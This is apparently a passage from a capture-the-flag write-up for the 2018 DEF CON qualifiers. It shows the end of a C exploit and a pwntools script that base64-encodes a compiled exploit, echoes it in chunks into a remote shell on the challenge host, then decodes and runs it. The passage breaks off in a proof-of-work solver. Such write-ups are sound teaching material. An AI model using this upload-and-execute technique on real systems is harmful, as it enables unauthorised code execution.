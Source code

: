 ```c  
	return 0;  
}  
```

Script to load the exploit in qemu and execute it:  
```python  
#!/usr/bin/env python  
from __future__ import print_function  
import sys  
import struct  
import hashlib  
from pwn import *  
import base64  
import subprocess  
from time import sleep

host = '11d9f496.quals2018.oooverflow.io'  
port =  31337

def chunkstring(string, length):  
   return (string[0+i:length+i] for i in range(0, len(string), length))

def buildexploit():  
   subprocess.check_call("musl-gcc exploit.c -Os -static -o
exploit",shell=True)  
   subprocess.check_call("tar cfz exploit.tar.gz exploit",shell=True)  
   with open("./exploit.tar.gz", "rb") as f:  
       exploit = f.read()  
   b64exploit = base64.b64encode(exploit)  
   exploit.encode("base64")  
   return b64exploit

def exploit(send):  
   exp = buildexploit()  
   sleep(10)  
   print("chunks...")  
   i = 0  
   for chunk in chunkstring(exp, 700):  
       sleep(2)  
       print(i)  
       i += 1  
       send("echo -n \"{}\" >> exploitb64".format(chunk))  
   sleep(1)  
   print("almost")  
   send("base64 -d exploitb64 > ./exploit.tar.gz")  
   sleep(1)  
   send("tar xf exploit.tar.gz")  
   sleep(1)  
   send("chmod +x ./exploit")  
   sleep(1)  
   send("ls")  
   sleep(1)  
   send("./exploit")

def pow_hash(challenge, solution):  
   return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q',
solution)).hexdigest()

def check_pow(challenge, n, solution):  
   h = pow_hash(challenge, solution)  
   return (int(h, 16) % (2**n)) == 0

def solve_pow(challenge, n):  
   candidate = 0  
```